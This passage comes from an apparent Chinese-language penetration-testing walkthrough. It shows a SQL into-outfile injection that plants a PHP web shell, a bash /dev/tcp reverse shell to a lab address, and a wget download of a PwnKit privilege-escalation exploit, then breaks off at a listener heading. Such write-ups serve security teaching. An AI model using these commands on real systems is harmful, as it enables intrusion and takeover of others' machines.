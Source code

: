 使用 nc 进行反弹 shell。  
select '<?php system("bash -c \\'bash -i >& /dev/tcp/192.168.10.128/2333 0>&1\\'"); ?>' into outfile '/tmp/view.tpl'

[![](assets/1699257095-fb0311aabb8bc2893d40528eb78df174.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103214700-76895ff0-7a4f-1.png)

# 内网渗透

## 权限提升

发现 是 ubuntu16.04 版本，提权 exp：[https://github.com/luijait/PwnKit-Exploit](https://github.com/luijait/PwnKit-Exploit)  
使用 wget 进行下载。  
wget 192.168.10.128/home/kali/PwnKit-Exploit-main/exploit.c  
然后发现没有提权成功。

## msf 提权

接着使用 msf 进行权限提升

## 设置监听

[![](assets/1699257095-7bee5bc1b0b16b5ae011f48d13b1b7e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103214721-834ad9d0-7a4f-1.png)
